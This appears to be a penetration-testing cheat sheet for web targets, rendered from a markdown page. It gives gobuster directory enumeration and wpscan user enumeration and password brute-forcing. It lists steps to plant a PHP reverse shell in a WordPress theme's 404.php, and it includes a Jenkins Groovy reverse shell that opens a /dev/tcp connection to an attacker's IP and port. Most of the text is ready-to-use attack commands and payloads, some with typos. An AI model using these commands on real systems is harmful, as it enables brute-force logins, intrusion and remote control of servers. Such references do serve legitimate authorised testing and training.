 #### Gobuster Big wordlist
```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u <URL> gobuster-<URL>.txt
```


### Wordpress
#### Scan Wordpress
```
wpscan -url <URL>
```

#### Enumerate users
```
wpscan –url <URL> -–enumerate u
```

#### Bruteforce login
```
wpscan --url <URL> --usernames <USERNAME> --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

#### Upload a reveare shell
1. Login --> Appearance --> Theme editor --> 404.php
2. gedit /usr/share/webshells/php/php-reverse-shell.php
3. Paste in 404.php
4. Start listener and go to an unexisting page in the browser

### Jenkings
#### Execute commands
- After login go to /script

#### Reverse java shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### General
#### Find dangerous HTTP methods
https://www.sans.org/reading-room/whitepapers/testing/penetration-testing-web-application-dangerous-http-methods-33945
```
curl -v -X OPTIONS http://website/directory
#HTTP options such as PUT, Delete are bad
```
